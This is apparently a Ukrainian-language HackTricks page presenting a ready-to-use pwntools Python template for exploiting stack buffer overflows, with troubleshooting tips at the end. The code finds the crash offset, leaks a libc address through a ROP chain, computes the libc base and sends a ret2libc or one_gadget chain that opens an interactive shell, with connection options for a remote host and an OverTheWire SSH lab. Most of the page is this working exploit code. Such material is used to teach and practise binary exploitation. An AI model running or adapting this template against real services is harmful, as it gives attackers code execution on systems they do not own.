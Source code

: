 # Витік libc - шаблон

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% code title="template.py" %}
```python
from pwn import ELF, process, ROP, remote, ssh, gdb, cyclic, cyclic_find, log, p64, u64  # Import pwntools


###################
### CONNECTION ####
###################
LOCAL = False
REMOTETTCP = True
REMOTESSH = False
GDB = False
USE_ONE_GADGET = False

LOCAL_BIN = "./vuln"
REMOTE_BIN = "~/vuln" #For ssh
LIBC = "" #ELF("/lib/x86_64-linux-gnu/libc.so.6") #Set library path when know it
ENV = {"LD_PRELOAD": LIBC} if LIBC else {}

if LOCAL:
P = process(LOCAL_BIN, env=ENV) # start the vuln binary
ELF_LOADED = ELF(LOCAL_BIN)# Extract data from binary
ROP_LOADED = ROP(ELF_LOADED)# Find ROP gadgets

elif REMOTETTCP:
P = remote('10.10.10.10',1339) # start the vuln binary
ELF_LOADED = ELF(LOCAL_BIN)# Extract data from binary
ROP_LOADED = ROP(ELF_LOADED)# Find ROP gadgets

elif REMOTESSH:
ssh_shell = ssh('bandit0', 'bandit.labs.overthewire.org', password='bandit0', port=2220)
p = ssh_shell.process(REMOTE_BIN) # start the vuln binary
elf = ELF(LOCAL_BIN)# Extract data from binary
rop = ROP(elf)# Find ROP gadgets

if GDB and not REMOTETTCP and not REMOTESSH:
# attach gdb and continue
# You can set breakpoints, for example "break *main"
gdb.attach(P.pid, "b *main")



#########################
#### OFFSET FINDER ######
#########################

OFFSET = b"" #b"A"*264
if OFFSET == b"":
gdb.attach(P.pid, "c") #Attach and continue
payload = cyclic(264)
payload += b"AAAAAAAA"
print(P.clean())
P.sendline(payload)
#x/wx $rsp -- Search for bytes that crashed the application
#print(cyclic_find(0x63616171)) # Find the offset of those bytes
P.interactive()
exit()



####################
### Find Gadgets ###
####################
try:
libc_func = "puts"
PUTS_PLT = ELF_LOADED.plt['puts'] #PUTS_PLT = ELF_LOADED.symbols["puts"] # This is also valid to call puts
except:
libc_func = "printf"
PUTS_PLT = ELF_LOADED.plt['printf']

MAIN_PLT = ELF_LOADED.symbols['main']
POP_RDI = (ROP_LOADED.find_gadget(['pop rdi', 'ret']))[0] #Same as ROPgadget --binary vuln | grep "pop rdi"
RET = (ROP_LOADED.find_gadget(['ret']))[0]

log.info("Main start: " + hex(MAIN_PLT))
log.info("Puts plt: " + hex(PUTS_PLT))
log.info("pop rdi; ret  gadget: " + hex(POP_RDI))
log.info("ret gadget: " + hex(RET))


########################
### Find LIBC offset ###
########################

def generate_payload_aligned(rop):
payload1 = OFFSET + rop
if (len(payload1) % 16) == 0:
return payload1

else:
payload2 = OFFSET + p64(RET) + rop
if (len(payload2) % 16) == 0:
log.info("Payload aligned successfully")
return payload2
else:
log.warning(f"I couldn't align the payload! Len: {len(payload1)}")
return payload1


def get_addr(libc_func):
FUNC_GOT = ELF_LOADED.got[libc_func]
log.info(libc_func + " GOT @ " + hex(FUNC_GOT))
# Create rop chain
rop1 = p64(POP_RDI) + p64(FUNC_GOT) + p64(PUTS_PLT) + p64(MAIN_PLT)
rop1 = generate_payload_aligned(rop1)

# Send our rop-chain payload
#P.sendlineafter("dah?", rop1) #Use this to send the payload when something is received
print(P.clean()) # clean socket buffer (read all and print)
P.sendline(rop1)

# If binary is echoing back the payload, remove that message
recieved = P.recvline().strip()
if OFFSET[:30] in recieved:
recieved = P.recvline().strip()

# Parse leaked address
log.info(f"Len rop1: {len(rop1)}")
leak = u64(recieved.ljust(8, b"\x00"))
log.info(f"Leaked LIBC address,  {libc_func}: {hex(leak)}")

# Set lib base address
if LIBC:
LIBC.address = leak - LIBC.symbols[libc_func] #Save LIBC base
print("If LIBC base doesn't end end 00, you might be using an icorrect libc library")
log.info("LIBC base @ %s" % hex(LIBC.address))

# If not LIBC yet, stop here
else:
print("TO CONTINUE) Find the LIBC library and continue with the exploit... (https://LIBC.blukat.me/)")
P.interactive()

return hex(leak)

get_addr(libc_func) #Search for puts address in memmory to obtain LIBC base



#############################
#### FINAL EXPLOITATION #####
#############################

## Via One_gadget (https://github.com/david942j/one_gadget)
# gem install one_gadget
def get_one_gadgets(libc):
import string, subprocess
args = ["one_gadget", "-r"]
if len(libc) == 40 and all(x in string.hexdigits for x in libc.hex()):
args += ["-b", libc.hex()]
else:
args += [libc]
try:
one_gadgets = [int(offset) for offset in subprocess.check_output(args).decode('ascii').strip().split()]
except:
print("One_gadget isn't installed")
one_gadgets = []
return

rop2 = b""
if USE_ONE_GADGET:
one_gadgets = get_one_gadgets(LIBC)
if one_gadgets:
rop2 = p64(one_gadgets[0]) + "\x00"*100 #Usually this will fullfit the constrains

## Normal/Long exploitation
if not rop2:
BINSH = next(LIBC.search(b"/bin/sh")) #Verify with find /bin/sh
SYSTEM = LIBC.sym["system"]
EXIT = LIBC.sym["exit"]

log.info("POP_RDI %s " % hex(POP_RDI))
log.info("bin/sh %s " % hex(BINSH))
log.info("system %s " % hex(SYSTEM))
log.info("exit %s " % hex(EXIT))

rop2 = p64(POP_RDI) + p64(BINSH) + p64(SYSTEM) #p64(EXIT)
rop2 = generate_payload_aligned(rop2)


print(P.clean())
P.sendline(rop2)

P.interactive() #Interact with your shell :)
```
{% endcode %}

## Загальні проблеми

### MAIN\_PLT = elf.symbols\['main'] не знайдено

Якщо символ "main" не існує (ймовірно, через те, що це обрізаний бінарний файл). Тоді ви можете просто знайти, де знаходиться основний код:
```python
objdump -d vuln_binary | grep "\.text"
Disassembly of section .text:
0000000000401080 <.text>:
```
і встановіть адресу вручну:
```python
MAIN_PLT = 0x401080
```
### Puts не знайдено

Якщо бінарний файл не використовує Puts, ви повинні **перевірити, чи використовує він**

### `sh: 1: %s%s%s%s%s%s%s%s: не знайдено`

Якщо ви знайдете цю **помилку** після створення **всіх** експлойтів: `sh: 1: %s%s%s%s%s%s%s%s: не знайдено`

Спробуйте **відняти 64 байти від адреси "/bin/sh"**:
```python
BINSH = next(libc.search("/bin/sh")) - 64
```
<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
